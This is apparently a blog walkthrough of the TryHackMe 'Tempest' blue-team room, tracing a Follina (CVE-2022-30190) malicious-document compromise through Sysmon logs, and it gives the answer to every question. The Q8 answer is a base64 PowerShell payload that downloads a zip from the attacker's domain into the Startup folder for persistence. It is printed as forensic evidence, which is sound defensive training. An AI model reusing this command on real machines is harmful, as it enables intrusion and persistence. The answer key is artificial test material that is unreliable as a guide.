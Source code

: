 ```yaml
---
author: Ricard Alcaraz Mancebo
title: Tempest - TryHackMe
tags:
  - Cybersecurity
  - Blue Team
  - TryHackMe
  - Digital Forensics
languages:
  - eztools
image:
  url: https://assets.tryhackme.com/img/logo/tryhackme_logo_full.svg
  alt: tryhackme
description: My notes solving Tempest - TryHackMe
pubDate: 2025-09-08T19:44:00.000+02:00
---
```

## Scenario
This room aims to introduce the process of analysing endpoint and network logs from a compromised asset. Given the artefacts, we will aim to uncover the incident from the Tempest machine. In this scenario, you will be tasked to be one of the Incident Responders that will focus on handling and analysing the captured artefacts of a compromised machine.

## Documents Provided
- capture.pcap
- sysmon.evtx
- windows.evtx

## Task 3
In this task we are asked to obtain the SHA256 of each file that we wull use for this investigation. The information we need to do it is already on the task, we will use Powershell to obtain the hashes.

```powershell
 Get-FileHash -Algorithm SHA256 [filename]
```

Also as the tasks says I will create the parsed csv of the event log sysmon as the task suggests. I will use the following command:

```
.\EvtxECmd.exe -f "C:\Users\user\Desktop\Incident Files\sysmon.evtx" --csv "C:\Users\user\Desktop\Incident Files\out"
```

### Q1: What is the SHA256 hash of the capture.pcapng file?

<details>
  <summary>Click to reveal the answer</summary>
  <div>
    CB3A1E6ACFB246F256FBFEFDB6F494941AA30A5A7C3F5258C3E63CFA27A23DC6
  </div>
</details>

### Q2: What is the SHA256 hash of the sysmon.evtx file?

<details>
  <summary>Click to reveal the answer</summary>
  <div>
    665DC3519C2C235188201B5A8594FEA205C3BCBC75193363B87D2837ACA3C91F
  </div>
</details>

### Q3: What is the SHA256 hash of the windows.evtx file?

<details>
  <summary>Click to reveal the answer</summary>
  <div>
    D0279D5292BC5B25595115032820C978838678F4333B725998CFE9253E186D60
  </div>
</details>

## Task 4
This challenge has a guideline all along so it makes it easier for people stating on these kind of analysis, such as me! This makes it easier and provides you a path to follow that you can later put in practice in other scenarios.
So following this I will open `Timeline Explorer` to open the sysmon log as suggested.

![]()

### Q4: The user of this machine was compromised by a malicious document. What is the file name of the document?

In the description of the task we have a clue, that we should investigate child processes of WinWord.exe, this question Its more related to the executable itself. Its the first time using this viewer and maybe there is something Im missing but right now Im not liking it much.
So what I did was search for the name of the file in the search bar, and then identify its process ID, to again search for it. In this case since its the begining it could be related to a Process Creation, or in sysmon Event ID 1.
Searching a little bit we will find the name of the file.

<details>
  <summary>Click to reveal the answer</summary>
  <div>
    free_magicules.doc
  </div>
</details>

### Q5: What is the name of the compromised user and machine?

We can find this information in the same event we found, care with the format to answer the question.

<details>
  <summary>Click to reveal the answer</summary>
  <div>
    benimaru-TEMPEST
  </div>
</details>

### Q6: What is the PID of the Microsoft Word process that opened the malicious document?

This also we found it when I started looking for the file, so we already have it.

<details>
  <summary>Click to reveal the answer</summary>
  <div>
    496
  </div>
</details>

#### Q7: Based on Sysmon logs, what is the IPv4 address resolved by the malicious domain used in the previous question?

Now, still searching for the process ID 496, we can look what `Map Description` does contain a `DNS Event (DNS query)`. Following the event of the previous document we can find two, one named `ecs.office.com` and the other `phishteam.xyz`, we can see that one of these is already suspicious by the name and the TLD, if we investigate the event of the suspicious event we will find the answer.

<details>
  <summary>Click to reveal the answer</summary>
  <div>
    167.71.199.191
  </div>
</details>

### Q8: What is the base64 encoded string in the malicious payload executed by the document?

For this one since its an execution its probably another sysmon event ID 1, a process creation, so we can check the following process creations and also we know that ist from the document so the parent process ID will be the one we found at **Q6**. Knowing this we will find the answer in the `Executable Info` of the event.

<details>
  <summary>Click to reveal the answer</summary>
  <div>
JGFwcD1bRW52aXJvbm1lbnRdOjpHZXRGb2xkZXJQYXRoKCdBcHBsaWNhdGlvbkRhdGEnKTtjZCAiJGFwcFxNaWNyb3NvZnRcV2luZG93c1xTdGFydCBNZW51XFByb2dyYW1zXFN0YXJ0dXAiOyBpd3IgaHR0cDovL3BoaXNodGVhbS54eXovMDJkY2YwNy91cGRhdGUuemlwIC1vdXRmaWxlIHVwZGF0ZS56aXA7IEV4cGFuZC1BcmNoaXZlIC5cdXBkYXRlLnppcCAtRGVzdGluYXRpb25QYXRoIC47IHJtIHVwZGF0ZS56aXA7Cg==
  </div>
</details>

### Q9: What is the CVE number of the exploit used by the attacker to achieve a remote code execution? 

The previous event contains a script, this will give us the clue. If we search part of the script we will find information about the CVE.

<details>
  <summary>Click to reveal the answer</summary>
  <div>
    2022-30190
  </div>
</details>

## Task 5

### Q10: The malicious execution of the payload wrote a file on the system. What is the full target path of the payload?
Now that we have the base64 string from **Q8** we can decode it, and it will have a path, we only have to guess un part of the path, that is related to the ApplicationData. We know the username, and the other part we can guess it if we know how the AppData folder is structured.

<details>
  <summary>Click to reveal the answer</summary>
  <div>
    C:\Users\benimaru\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup
  </div>
</details>


